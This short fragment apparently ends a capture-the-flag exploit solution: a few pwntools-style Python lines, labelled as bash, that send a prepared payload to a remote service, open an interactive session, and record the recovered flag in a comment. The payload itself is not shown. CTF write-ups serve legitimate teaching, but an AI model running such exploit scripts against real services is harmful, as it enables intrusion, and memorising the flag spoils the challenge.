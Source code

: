 ```bash
payload += b'\n'

r.send(payload)

r.interactive()
# potluck{3y3_4m_n0t_th3_0n3_t0_s0Rt_0f_s1T_4nD_cRY_0v3R_sP1Lt_m1LK!1!!}
```
